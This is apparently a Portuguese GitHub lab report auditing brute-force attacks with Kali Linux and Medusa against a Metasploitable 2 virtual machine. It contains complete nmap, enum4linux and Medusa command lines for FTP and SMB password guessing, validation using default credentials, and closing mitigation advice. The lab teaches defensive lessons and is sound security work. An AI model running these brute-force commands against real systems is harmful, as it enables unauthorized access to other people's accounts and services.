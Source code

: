 # 🛡️ Relatório de Auditoria de Segurança: Força Bruta com Kali Linux e Medusa

## 📜 Visão Geral do Projeto

Este relatório documenta uma auditoria de segurança focada na simulação de ataques de **Força Bruta** contra serviços de rede comuns, utilizando as ferramentas **Kali Linux** e **Medusa**. O projeto visa demonstrar a criticidade do uso de credenciais robustas e a necessidade de mecanismos de defesa proativos.

**Alvo:** Máquina Virtual Metasploitable 2 (Ambiente de Teste Controlado)
**Ferramentas:** Kali Linux, Medusa, Nmap (para reconhecimento)

---

## ⚙️ I. Configuração do Ambiente e Reconhecimento

### 1. Topologia da Rede
* **Kali Linux (Atacante):** [192.168.227.129]
* **Metasploitable 2 (Alvo):** [192.168.227.128]
* **Tipo de Rede:** Host-Only.

### 2. Reconhecimento (Nmap)
* **Comando Nmap utilizado:** `nmap -sV 192.168.227.128`
* **Serviços Encontrados:** `ftp, ssh, telnet, smb...`

## 🧩 Requisitos e Preparação do Ambiente

**Pré-requisitos (na máquina atacante — Kali):**
- Kali Linux atualizado (rolling)
- Medusa (v2.x) instalado
- Hydra (opcional) / smbclient / enum4linux / nmap / tcpdump
- Wordlists dentro da pasta `wordlists/`
- Rede: VirtualBox Host-Only (Kali e Metasploitable na mesma rede interna)

**Configuração das VMs**
- Kali Linux (Atacante): IP ex.: `192.168.227.129`
- Metasploitable2 (Alvo): IP ex.: `192.168.227.128`
- Rede: tipo *Host-Only* (garante isolamento)

**Como reproduzir o laboratório (resumo)**
1. Inicie as duas VMs (Kali + Metasploitable2) em VirtualBox com adaptadores em Host-Only.
2. Confirme conectividade: `ping 192.168.227.128`
3. No Kali, verifique ferramentas instaladas:
   ```bash
   medusa -h | head -n 5
   nmap --version
   smbclient --version
   enum4linux -h

---

## ## II. Cenários de Ataque de Força Bruta

> **Observação:** Estes cenários foram executados em ambiente controlado (Metasploitable2) e documentados com evidências (logs e screenshots).

---

### Cenário 1: Quebra de Senha no Serviço FTP (Medusa)

| Protocolo | Porta | Wordlist Utilizada |
| :--- | :---: | :--- |
| FTP | 21 | wordlists/ftp_passwords.txt & users.txt |

**Alvo:** 192.168.227.128 (Metasploitable 2)  
**Ferramenta:** Medusa (`-M ftp`)  
**Objetivo:** Demonstrar força-bruta contra serviço FTP e validar credenciais obtidas.

#### Enumeração / Reconhecimento
```bash
# Reconhecimento rápido do serviço FTP
nmap -sV -p21 192.168.227.128 | tee nmap_ftp.txt

# Comando de Execução (Medusa)
medusa -M ftp -h 192.168.227.128 -U wordlists/users.txt -P wordlists/ftp_passwords.txt -t 4 -v 4 -f |& tee medusa_ftp_run.log

# Validação manual (exemplo) 
Use um cliente FTP para validar qualquer credencial encontrada:
ftp 192.168.227.128
# ou, se preferir, use um cliente que permita user%pass no comando:
# curl --ftp-ssl -u user:password ftp://192.168.227.128/
```
---

### Cenário 2: Quebra de Senha no Serviço SMB (Medusa)

| Protocolo | Porta | Wordlist Utilizada |
| :--- | :---: | :--- |
| SMB | 139 & 445 | wordlists/smb_passwords_small.txt & wordlists/users.txt |

**Alvo:** 192.168.227.128 (Metasploitable 2)  
**Módulo Medusa:** `smbnt`  
**Objetivo:** Demonstrar força-bruta / password spraying em SMB e validar credenciais obtidas.

#### Enumeração / Reconhecimento
```bash
# Enumerar usuários e shares (salvar saída para evidência)
enum4linux -a 192.168.227.128 | tee enum4linux_all.txt
enum4linux -U 192.168.227.128 | tee enum4linux_users.txt
smbclient -L //192.168.227.128 -N | tee smbclient_shares.txt

# Comando de Execução (Medusa)
`medusa -M smbnt -h 192.168.227.128 -U wordlists/users.txt -P wordlists/smb_passwords_small.txt -t 2 -v 4 -f |& tee medusa_smb_run.log

# Validação manual (exemplo obrigatório)
# Validar credenciais encontradas (ex.: msfadmin:msfadmin)
smbclient //192.168.227.128/IPC$ -U 'msfadmin%msfadmin' -W WORKGROUP -c 'ls; exit' | tee smb_validation_msfadmin.log

# Extra: extrair resultados do log do Medusa
# procurar linhas que indiquem sucesso
grep -E "SUCCESS|FOUND|LOGIN" -i medusa_smb_run.log || true
```
---

## III. Recomendações de Mitigação e Defesa

Os ataques de Força Bruta contra serviços como FTP e SMB foram bem-sucedidos devido à utilização de senhas fracas e à ausência de mecanismos de limitação de taxa de conexão. Para mitigar o risco, as seguintes ações defensivas são recomendadas:

### 1. Política de Senhas Fortes
* **Forçar Complexidade:** Implementar uma política de senhas que exija um comprimento mínimo (idealmente 14+ caracteres) e a utilização de uma combinação de letras maiúsculas, minúsculas, números e símbolos.
* **Proibição de Padrões:** Banir senhas padrão, comuns ou de dicionário (como "msfadmin", "password", "user").

### 2. Controles de Acesso e Autenticação
* **Bloqueio de IP (Rate Limiting):** Implementar ferramentas de controle de acesso como **Fail2Ban** no servidor. Essa ferramenta monitora logs de autenticação e bloqueia automaticamente endereços IP (o seu alvo é `192.168.227.128`) que tentarem realizar *logins* malsucedidos repetidamente em um curto espaço de tempo.
* **Restrição de Serviços:** Se um serviço (como o FTP ou SMB) não for essencial para o acesso externo, restrinja-o para ser acessível apenas a partir de endereços IP confiáveis na rede interna.

### 3. Criptografia e Segurança do Serviço
* **Desabilitar ou Substituir Serviços Não Criptografados:** O FTP transmite credenciais em texto claro. Substitua o FTP por **SFTP (SSH File Transfer Protocol)** ou **FTPS**, que criptografam a comunicação.
* **Atualização do SO e Serviços:** O Metasploitable 2 está utilizando versões antigas de serviços (como o vsftpd 2.3.4). Manter o sistema operacional e os serviços atualizados garante que vulnerabilidades conhecidas (exploits) sejam corrigidas.
